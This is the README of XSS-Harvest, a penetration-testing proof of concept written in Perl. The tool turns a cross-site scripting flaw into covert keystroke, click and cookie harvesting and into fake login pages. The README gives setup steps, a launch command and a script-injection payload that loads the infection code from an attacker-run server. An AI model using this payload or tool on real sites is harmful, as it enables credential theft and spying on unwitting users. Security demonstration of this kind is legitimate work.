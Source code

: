 XSS-Harvest
===========

* Author: geoff.jones@cyberis.co.uk
* Copyright: Cyberis Limited 2013
* License: GPLv3 (See LICENSE)
* Version: 0.4

XSS-Harvest - a proof of concept harvesting tool for demonstrating the real power of XSS attacks

About
-----
XSS-Harvest is multi-threaded pre-forking web server written in Perl, and requires no dependencies other than a couple of common Perl modules; you do not need a web server or database to use this tool. Before going into the detail, I'll list the high level functionality below:

* Infection script adds relevant event listeners (keystrokes, onload() and mouse clicks) to the vulnerable page and sets up communication with the XSS-Harvest server.
* Any key entered will be sent covertly to the server.
* Any mouse click performed will be analysed and the data covertly sent to the server.
* Optionally 'redress' the vulnerable page to display a different page on the same subdomain - e.g. a login form.
* If redressing the victim's browser, allow subsequently loaded pages to be also 'infected' - assuming they don't break the same-origin policy (i.e. they're on the same subdomain).
* Keeps track of victims for the lifetime of the XSS-Harvest cookie (future visits are recognised as a returning victim).
* Each victim has a separate history file containing all events, cookies and keystrokes. 
* Server console displays real time data received (due to multi-threaded nature, keystrokes are displayed as '.' characters to avoid confusion).
* Tested in IE6-9 (reflected XSS protection in IE9 will limit exploitation to stored XSS only in most cases), FF5, Chrome and various mobile browsers (Safari and Android). Please let me know your success with other browsers.
* Overcomes browser oddities, such as Internet Explorer throttling requests to the same URL when exfiltrating keystrokes.

Dependencies
------------
Requires the following dependencies:
```perl
use HTTP::Server::Simple::CGI;
use Digest::MD5;
use Time::Local;
use Getopt::Std;
use Net::Server::PreFork;
```

Ubuntu/Debian install
---------------------

    sudo apt-get install libhttp-server-simple-perl libdigest-md5-file-perl libtime-local-perl libnet-server-perl

OSX Install
-----------

    sudo cpan install HTTP::Server::Simple::CGI
    sudo cpan install Digest::MD5
    sudo cpan install Digest::Time::Local
    sudo cpan install Getopt:Std
    sudo cpan install Net::Server::Prefork

Usage
-----
Start server (with redress:)

```bash
./xss-harvest.pl -l -r http://vulnerablepage.local/login.html
```

XSS:
```html
<script src="http://<serverip>:<serverport>/i"></script>
```
Issues
------
Kindly report all issues via https://github.com/cyberisltd/XSS-Harvest/issues
